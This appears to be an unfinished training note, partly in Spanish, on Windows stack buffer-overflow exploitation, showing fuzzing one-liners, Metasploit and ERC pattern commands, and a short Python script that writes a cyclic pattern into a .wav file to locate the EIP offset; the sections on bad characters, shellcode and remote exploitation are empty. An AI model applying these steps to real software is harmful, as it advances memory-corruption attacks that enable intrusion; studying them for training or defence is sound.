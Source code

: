 # Local Buffer Overflow
## Fuzzing

```
python -c "print('A'*10000)"
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

## Controlling EIP

### Creating Unique Pattern

```
/usr/bin/msf-pattern_create -l 5000
```

```
ERC --pattern c 5000
```

### Exploit

win32bof_exploit.py

```
def eip_offset():
	payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5...Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")

	with open('pattern.wav', 'wb') as f:
		f.write(payload)

eip_offset()
```

### Calculating EIP Offset

```
/usr/bin/msf-pattern_offset -q 31684630
```

Seleccionar EIP, botón derecho y Modificar valor 
```
ERC --pattern o <ASCII value>
```
## Indetyfing Bad Characters





## Finding a Return Instruction



## Jumping to Shellcode



# Remote Buffer Overflow

## Remote Fuzzing




## Building a Remote Exploit



## Remote Exploitation